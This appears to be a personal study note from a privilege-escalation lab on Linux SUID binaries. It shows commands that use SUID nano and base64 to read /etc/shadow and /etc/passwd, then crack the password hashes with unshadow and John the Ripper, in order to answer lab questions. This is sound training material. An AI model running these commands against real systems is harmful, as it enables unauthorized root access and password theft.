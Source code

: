 Much of Linux privilege controls rely on controlling the users and files interactions. This is done with permissions. This changes with SUID (Set-user Identification) and SGID (Set-group Identification) that allow files to be executed with the permission level of the file owner or the group owner, respectively.  
 
*Note* 
These type of files have an “**s**” bit set showing their special permission level.

`find / -type f -perm -04000 -ls 2>/dev/null` will list files that have SUID or SGID bits set.
	![[Pasted image 20240823202311.png]]
The SUID bit set for the nano text editor allows us to create, edit and read files using the file owner’s privilege. Nano is owned by root, which probably means that we can read and edit files at a higher privilege level than our current user has. At this stage, we have two basic options for privilege escalation: 
- reading the `/etc/shadow` file 
- adding our user to `/etc/passwd`.

## reading the `/etc/shadow` file
Running `find / -type f -perm -04000 -ls 2>/dev/null` command we observe that the **nano** text editor has the SUID "**s**" bit set.

Using `nano /etc/shadow` we will read the contents of the /etc/shadow file. Using the unshadow tool we will create a file crackable by John the Ripper. To achieve this, unshadow needs both the `/etc/shadow` and `/etc/passwd` files.

```
unshadow passwd.txt shadow.txt > passwords.txt 
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

## **Examples**
Q) Which user shares the name of a great comic book writer?
	```base64 /etc/passwd | base64 -decode```
	![[Pasted image 20240823223110.png]]

Q) What is the password of user2?
	```base64 /etc/shadow | base64 -decode```
	`unshadow passwd.txt shadow.txt > passwords.txt`
	`john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt`
	![[Pasted image 20240823223330.png]]

Q)What is the content of the flag3.txt file?
	same trick on encoding and decoding to gain read acces: 
		`base64 /home/ubuntu/flag3.txt | base64 -d`